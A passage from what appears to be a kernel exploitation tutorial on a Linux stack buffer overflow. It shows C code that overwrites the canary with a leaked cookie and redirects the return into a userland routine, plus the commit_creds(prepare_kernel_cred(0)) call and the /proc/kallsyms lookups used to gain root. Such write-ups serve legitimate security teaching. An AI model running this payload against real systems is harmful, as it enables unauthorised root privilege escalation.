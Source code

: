 The situation here is the same as leaking, we will create an `unsigned long` array, then overwrite the cookie with our leaked cookie at index 16. The important thing to note here is that different from `userland` programs, this kernel function actually pops 3 registers from the stack, namely `rbx`, `r12`, `rbp` instead of just `rbp` (this can clearly be seen in the disassembly of the functions). Therefore, we have to put 3 dummy values after the cookie. Then the next value will be the return address that we want our program to return into, which is the function that we will craft on the `userland` to achieve root privileges, I called it `escalate_privs`:

```
void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = (unsigned long)escalate_privs; // ret

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}


```

The final concern here is what do we actually write in that function to achieve root privileges.

Again, just as a reminder, our goal in kernel exploitation is not to pop a shell via `system("/bin/sh")` or `execve("/bin/sh", NULL, NULL)`, but it is to achieve root privileges in the system, then pop a root shell. Typically, the most common way to do this is by using the 2 functions called `commit_creds()` and `prepare_kernel_cred()`, which are functions that already reside in the kernel-space code itself. What we need to do is to call the 2 functions like this:

```
commit_creds(prepare_kernel_cred(0))


```

Since `KASLR` is disabled, the addresses where these functions reside in is constant across every boot. Therefore, we can just easily get those addresses by reading `/proc/kallsyms` file using these shell commands:

```
cat /proc/kallsyms | grep commit_creds
-> ffffffff814c6410 T commit_creds
cat /proc/kallsyms | grep prepare_kernel_cred
-> ffffffff814c67f0 T prepare_kernel_cred


```
